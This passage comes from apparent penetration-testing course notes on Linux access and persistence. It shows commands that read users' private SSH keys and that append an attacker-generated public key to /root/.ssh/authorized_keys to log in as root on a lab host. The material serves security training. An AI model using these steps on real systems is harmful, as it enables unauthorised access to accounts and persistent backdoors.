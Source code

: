 We may also check for `Password Reuse`, as the system user  may have used their password for the databases, which may allow us to  use the same password to switch to that user.



### SSH Keys

 If we have read access over the `.ssh` directory for a specific user, we may read their private ssh keys found in `/home/user/.ssh/id_rsa` or `/root/.ssh/id_rsa`, and use it to log in to the server. 

If we find ourselves with write access to a users`/.ssh/` directory, we can place our public key in the user's ssh directory at `/home/user/.ssh/authorized_keys`. This technique is usually used to gain ssh access after gaining a shell as that user. We must first create a new key (on the attacker system) with `ssh-keygen` and the `-f` flag to specify the output file:

​                                                                                                

```shell-session
Bonzo@htb[/htb]$ ssh-keygen -f key

Generating public/private rsa key pair.
Enter passphrase (empty for no passphrase): *******
Enter same passphrase again: *******

Your identification has been saved in key
Your public key has been saved in key.pub
The key fingerprint is:
SHA256:...SNIP... user@parrot
The key's randomart image is:
+---[RSA 3072]----+
|   ..o.++.+      |
...SNIP...
|     . ..oo+.    |
+----[SHA256]-----+
```

This will give us two files: `key` (which we will use with `ssh -i`) and `key.pub`, which we will copy to the remote machine. Let us copy `key.pub`, then on the remote machine, we will add it into `/root/.ssh/authorized_keys`:                                                                                          

```shell-session
user@remotehost$ echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys
```

Now, the remote server should allow us to log in as that user by using our private key:                                             

```shell-session
Bonzo@htb[/htb]$ ssh root@10.10.10.10 -i key

root@remotehost# 
```

## Transfering files

During any penetration testing exercise, it is likely that we will need  to transfer files to the remote server, such as enumeration scripts or  exploits, or transfer data back to our attack host. 


[1]: https://en.wikipedia.org/wiki/Tmux	"tmux on wikipedia"